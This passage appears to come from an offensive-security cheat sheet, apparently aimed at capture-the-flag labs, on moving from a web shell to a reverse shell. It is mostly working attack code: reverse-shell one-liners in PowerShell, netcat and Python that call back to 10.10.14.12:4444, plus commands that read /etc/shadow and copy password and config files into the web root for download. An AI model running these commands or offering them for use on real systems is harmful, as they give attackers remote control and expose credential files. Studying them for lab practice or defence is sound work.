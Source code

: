 **Active Connections:**
```cmd
# Windows
netstat -an
arp -a
route print

# Linux
netstat -tulpn
arp -a
route -n
```

## Advanced Web Shell Techniques

### Shell Upgrade Strategies

#### From Web Shell to Reverse Shell

**PowerShell Reverse Shell:**
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.12',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

**Netcat Reverse Shell (Linux):**
```bash
nc -e /bin/bash 10.10.14.12 4444
```

**Python Reverse Shell:**
```bash
python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.14.12',4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"
```

#### File Upload and Download

**Upload Files via Web Shell:**
- Use built-in upload functionality
- Transfer tools and payloads
- Upload privilege escalation exploits

**Download Sensitive Files:**
```cmd
# Windows
type C:\Users\Administrator\Desktop\flag.txt
copy "C:\Program Files\App\config.xml" C:\inetpub\wwwroot\files\

# Linux
cat /etc/shadow
cp /etc/passwd /var/www/html/
```
